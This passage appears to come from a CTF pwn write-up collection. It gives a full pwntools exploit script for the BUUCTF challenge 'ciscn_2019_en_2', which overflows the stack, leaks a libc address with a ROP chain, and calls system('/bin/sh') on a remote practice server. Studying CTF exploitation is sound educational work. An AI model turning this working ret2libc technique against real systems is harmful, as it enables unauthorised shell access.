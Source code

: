 ```python
io.interactive()
```
# buu014-ciscn_2019_en_2
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25743)
elf = ELF('./pwn')
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')

poprdi_ret = 0x400c83

payload = b'\x00' + cyclic(0x50+7)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols[b'main'])

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)
print(io.recv(12))

put_addr = u64(io.recv(6) + b'\x00\x00')
print(hex(put_addr))
libc = LibcSearcher('puts', put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

print(hex(sys_addr))
print(hex(binsh_addr))

payload = b'\x00' + cyclic(0x50+7)
payload += p64(0x4006b9)	# ret
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)

io.interactive()
```
# buu015-[HarekazeCTF2019]baby_rop
